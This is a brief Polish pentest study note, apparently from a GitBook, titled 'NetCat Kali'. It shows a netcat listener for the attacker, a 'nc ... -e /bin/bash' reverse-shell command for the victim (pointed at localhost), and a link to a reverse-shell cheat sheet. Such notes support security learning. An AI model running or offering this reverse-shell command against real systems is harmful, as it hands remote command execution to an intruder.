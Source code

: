```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# NetCat Kali

**atakujący**

```python
nc -nlvp 9000
```

**ofiara**

```python
nc 127.0.0.1 9000 -e /bin/bash
```

**Reverse Shell Command**

[**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
